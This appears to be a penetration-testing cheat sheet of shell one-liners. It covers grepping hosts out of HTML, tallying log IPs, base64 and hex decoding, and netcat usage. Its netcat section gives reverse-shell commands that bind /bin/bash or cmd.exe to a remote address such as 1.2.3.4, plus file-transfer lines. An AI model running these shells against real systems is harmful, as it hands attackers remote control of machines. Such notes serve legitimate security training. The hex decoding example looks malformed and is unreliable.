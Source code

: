 Extract all the lines that contain a string
>grep "href=" index.html

Cut a string by a delimiter, filter results then sort
>grep "href=" index.html | cut -d "/" -f 3 | grep "\\." | cut -d '"' -f 1 | sort -u

Using Grep and regular expressions and output to a file
>cat index.html | grep -o 'http://\[^"\]\*' | cut -d "/" -f 3 | sort -u > list.txt

Use a bash loop to find the IP address behind each host
>for url in $(cat list.txt); do host $url; done

Collect all the IP Addresses from a log file and sort by frequency
>cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn

### Decoding using Kali

Decode Base64 Encoded Values
>echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode

Decode Hexidecimal Encoded Values
>echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps

### Netcat - Read and write TCP and UDP Packets

Download Netcat for Windows (handy for creating reverse shells and transferring files on windows systems):
[https://joncraton.org/blog/46/netcat-for-windows/](https://joncraton.org/blog/46/netcat-for-windows/)

Connect to a POP3 mail server
>nc -nv $ip 110

Listen on TCP/UDP port
>nc -nlvp 4444

Connect to a netcat port
>nc -nv $ip 4444

Send a file using netcat
>nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe

Receive a file using netcat
>nc -nlvp 4444 > incoming.exe

Some OSs (OpenBSD) will use nc.traditional rather than nc so watch out for that...

>whereis nc
>
>nc: /bin/nc.traditional /usr/share/man/man1/nc.1.gz
>
>/bin/nc.traditional -e /bin/bash 1.2.3.4 4444

Create a reverse shell with Ncat using cmd.exe on Windows
>nc.exe -nlvp 4444 -e cmd.exe
>
>or
>
>nc.exe -nv 'Remote IP' 'Remote Port' -e cmd.exe
